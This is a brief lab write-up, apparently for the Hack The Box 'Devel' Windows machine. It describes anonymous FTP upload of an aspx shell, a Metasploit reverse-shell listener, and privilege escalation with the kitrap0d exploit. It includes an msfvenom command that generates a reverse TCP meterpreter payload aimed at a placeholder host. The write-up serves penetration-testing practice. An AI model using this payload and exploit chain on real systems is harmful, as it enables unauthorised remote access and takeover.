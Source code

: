 # Machine - Easy Windows - Devel

IP 10.10.10.5 

## Contents
- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Priviledge Escalation](#priviledge-escalation)

## Tools

- Nmap
- ftp
- Metasploit

## Enumeration

- Nmap shows port 21 and 80 is open.

## Exploitation

- FTP anynymous login was enabled. So, exploited it with `put shell.aspx` to upload msfvenom shell.
msfvenom command used,
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx > shell.aspx`
- Then used `/multi/handler` to get reverse tcp connection from the shell on metasploit as user `IIS APPPOOL\Web`.

## Priviledge Escalation

- Used `local_exploit_suggester` module for this.
- After trying some suggested exploit `exploit/windows/local/ms10_015_kitrap0d` worked. The flags can now be obtained from
`c:\Users\babis\Desktop\user.txt.txt​` and `c​:\Users\Administrator\Desktop\root.txt.txt`

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
